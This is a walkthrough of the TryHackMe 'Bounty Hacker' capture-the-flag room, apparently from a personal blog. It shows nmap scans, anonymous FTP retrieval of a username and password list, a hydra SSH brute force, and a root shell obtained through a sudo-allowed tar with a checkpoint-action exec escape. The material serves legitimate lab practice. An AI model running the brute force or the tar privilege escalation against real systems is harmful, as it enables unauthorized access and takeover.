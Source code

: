 ```yaml
---
title: "Bounty Hacker"
date: 2025-01-22
image: /assets/img/tryhackme/BountyHacker/BountyHacker_image.jpg
description: Writeup of the TryHackMe-CTF Bounty Hunter
categories: [Tryhackme, Easy]
tags: [linux, web, ssh, hydra, bruteforce, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Bounty Hacker</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/cowboyhacker">https://tryhackme.com/r/room/cowboyhacker</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution to the CTF challenge Bounty Hacker

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap 10.10.66.27
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 04:25 EST
Nmap scan report for 10.10.66.27
Host is up (0.040s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 3.89 seconds
```
and enumerated the services nmap found in more depth using the `-A` flag:
```bash
$ nmap -A -p 21,22,80 10.10.66.27
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 04:27 EST
Nmap scan report for 10.10.66.27
Host is up (0.039s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.21.63.26
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.20 seconds
```
from here I analyzed the services one after another.

## FTP Analysis
As we can see in the nmap output the ftp server allow anonymous access. Therefore I trief to access the service:

```bash
$ ftp anonymous@10.10.59.122
Connected to 10.10.59.122.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||14671|)
```
It took me a while to actually see the files because of many timeouts. Thats why I switched to Filezilla which automatically try to reconnect. After some time I was able to download the following files:
```bash
$ cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin

$ cat locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
As we can see we got a potential username and probably a password list.

## HTTP Analysis
I analyzed the source code, performed enumeration and tried steganography techniques on all the images without getting anything.

## SSH Analysis
With the given username and the potential password list, I tried to brute force the ssh login using `hydra`
```bash
$ hydra -l lin -P locks.txt ssh://10.10.59.122
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-22 04:43:05
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.59.122:22/
[22][ssh] host: 10.10.59.122   login: lin   password: [removed]
```
Hydra found a valid credentails, which allowed me to login in and retrieve the user flag.
```bash
$ ssh lin@10.10.59.122
lin@bountyhacker:~/Desktop$ hostname
bountyhacker
lin@bountyhacker:~/Desktop$ cat user.txt
THM{*** removed ***}
```
## Privilege Escalation
For the root flag we need to escalate our privileges. I hab success by executing `sudo -l`
```bash
$ sudo -l
[sudo] password for lin:
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
A quick search in <a href="https://gtfobins.github.io/gtfobins/tar/#shell">gftobins</a> gave me all I needed:
```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# cd /root
# cat root.txt
THM{*** removed ***}
```

solved! :)
